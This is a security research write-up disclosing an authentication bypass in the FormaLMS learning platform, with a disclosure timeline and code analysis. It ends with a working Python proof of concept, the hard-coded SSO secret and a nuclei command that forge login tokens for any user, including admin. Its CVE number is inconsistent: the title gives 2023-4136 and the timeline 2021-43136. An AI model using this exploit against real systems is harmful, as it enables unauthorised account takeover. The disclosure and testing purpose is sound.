 ```yaml
---
title: "CVE-2023-4136 - FormaLMS The evil default value that leads to Authentication Bypass"
slug: "cve-2023-4136-formalms-authentication-bypss"
date: 2021-11-02
---
```


## Preface
As part of a recent research activity, we stumbled upon FormaLMS. The project is an open source Learning Management System built by forma.association and aimed at companies who want a learning platform for internal employees, partners, dealers and sellers.
The project is opensource and could be downloaded from the main website: formalms.org and the tested version is the 2.3.
Update: the exploit is working on version <= 2.4.4


## Responsible disclosure timeline
| Date	| Notes |
| ----  | ----- |
| 2021/10/02 | Vulnerability has been found |
| 2021/10/06 | Notification has been sent |
| 2021/10/21 | No answer. Sending second notification using the contact section of the website |
| 2021/11/02 | Public disclosure |
| 2021/11/09 | CVE-2021-43136 Assigned |



## Digging into the source
The application is written in PHP language and it uses custom routing logic to forward the requests to the specific controller. The architecture resemble the Model-View Controller one in a weird way and the requests are routed through the "front controller", which is the index.php file located in the root of the project.


## The routing mechanism
Once received, the front controller is responsible to parse the requested route via the r query string parameter, split the string by / and determine which controller and module to load (the green rectangle).
![Routing mechanism](/formalms/image-45.png)

A quick analysis on the `_homepage_base_` and `_homepagecatalog_base_` constants shows these values:
![Constants](/formalms/image-46.png)

So we can now reconstruct the routing mechanism:
- First part of the r parameter is the controller name (the red mark)
- Second part is the module name (green mark)
- Third part is the method name (orange mark)
- A "Controller" static suffix is appended at the end (yellow mark)

![MVC logics](/formalms/image-47.png)

## The authorization mechanism
While it is obvious that the routing mechanism allows every user to arbitrarily call any class, the authorization mechanism denies some actions to the administrative part of the application such as the `AdminrulesAdmController` file.

![ACL 1](/formalms/image-48.png)
![ACL 2](/formalms/image-49.png)
![ACL 3](/formalms/image-50.png)

So, in summary:
- The front controller, index.php, instantiate a new class based on the r input parameter and calls a constructor with the mvc name.
- The destination class, AdminrulesAdmController in this case, which extends the AdmController and is a subclass of the Controller class, calls a constructor with the mvc name and, afterwards, the init function
- The init() function of the "AdmController" is called and the checkRole() and checkPerms() are invoked based on the definition of the CORE constant, which is declared in various points of the code base.

## The vulnerability
While we had no luck trying to circumvent the authorization mechanism, one part of the index.php front controller caught my attention.
![front controller](/formalms/image-51.png)

Apparently, if the parameters login_user, time and token are passed to the query string, the application flows to a different location defined in the `_sso_` constant:
![sso constant flow](/formalms/image-52.png)


And, lastly, the part that clearly helped us to find the bug:
![bugged code](/formalms/image-53.png)

While it looks like that the developers were aware of this ugly default value ("orribile questo default" translates to "This is an horrible default value"), this was the part that motivated us to investigate further.


## Digging into the SSO function
Until now, we know that in order to access the sso functionality, the sso_token setting should be enabled.
The "sso" setting is present in the admin section of the website and, as shown in the screenshots above, it accepts a NULL value for the secret parameter.

![admin panel](/formalms/image-54.png)

## Exploiting the flaw
Knowing this, it is just a matter of sending an HTTP request on the index.php which contains:
- **login_user**: the target username
- **time**: the expiration of the session in epoch format. Adding some time will be useful to circumvent the expiration check
- **token**: calculated like the following:
```php
$recalc_token = strtoupper(md5($login_user . ',' . $time . ',' . $secret));
```
- **sso_secret**: the default value, which is: 8ca0f69afeacc7022d1e589221072d6bcf87e39c or, in some cases, empty if the value of SSO secret for the token hash is set to empty.


Following a simple PoC script that automates the process:​
```python
#!/usr/bin/env python
import sys
import time
import hashlib


secret = "8ca0f69afeacc7022d1e589221072d6bcf87e39c"

def help():
  print(f"Usage: {sys.argv[0]} username target_url")
  sys.exit()

if len(sys.argv) < 3:
    help()

user, url = (sys.argv[1], sys.argv[2])


t = str(int(time.time()) + 5000)
token = hashlib.md5(f"{user},{t},{secret}".encode()).hexdigest().upper()
final_url = f"{url}/index.php?login_user={user}&time={t}&token={token}"
print(f"URL with default secret: {final_url}")

token = hashlib.md5(f"{user},{t},".encode()).hexdigest().upper()
final_url = f"{url}/index.php?login_user={user}&time={t}&token={token}"
print(f"URL with empty secret: {final_url}")
```


And, finally, the bypass:
![bypass](/formalms/image-55.png)


## Nuclei template
Following a nuclei template, which could be useful for testing the vulnerability on single/multiple targets.
**Note**: the exploit uses blank value for the SSO Secret value, feel free to change it accordingly
The exploit needs environment variables in order to generate correct time in epoch format and token.
```sh
time=$(date -d "20 minutes" +"%s"); token=$(echo -n "admin,$time," | md5sum | cut -d ' ' -f 1);  ~/nuclei/v2/nuclei -u http://localhost:8085/formalms/ -t ~/nuclei-templates/vulnerabilities/formalms/formalms-auth-bypass.yaml -var login_user=admin -var time=$time -var token=$token -debug -v
```

